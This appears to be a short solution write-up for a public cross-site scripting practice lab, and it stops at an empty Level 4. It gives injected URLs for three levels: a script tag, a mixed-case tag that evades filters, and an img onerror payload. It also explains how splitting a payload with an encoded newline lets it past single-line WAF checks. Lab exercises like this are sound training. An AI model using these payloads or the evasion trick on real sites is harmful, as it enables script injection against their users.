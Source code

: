 Level 1: [http://www.zixem.altervista.org/XSS/1.php?name=<script>alert(1337)</script>](https://zixem.altervista.org/XSS/1.php?name=%3Cscript%3Ealert(1)%3C/script%3E) \
Level 2: [http://www.zixem.altervista.org/XSS/2.php?name=<scrIpt>alert(1337)</scrIpt>](https://zixem.altervista.org/XSS/2.php?name=%3CscrIpt%3E%20alert(1)%3C/scrIpt%3E) \
Level 3: [https://zixem.altervista.org/XSS/3.php?name=zxm%0A`<img src=”x” onerror=alert(1337)>`](https://zixem.altervista.org/XSS/3.php?name=zxm%0A%3Cimg%20src=%E2%80%9Dx%E2%80%9D%20onerror=alert(1337)%3E) \
Using %0A URL-encoded representation of a newline character (Line Feed, LF, \n) in ASCII and UTF-8 encoding. \
Some WAFs only scan for dangerous keywords within a single line. If an attack payload is split across multiple lines \
(e.g., using %0A for a newline), the filter may fail to detect it, allowing bypass techniques for XSS, SQLi, and other attacks.
Level 4: 

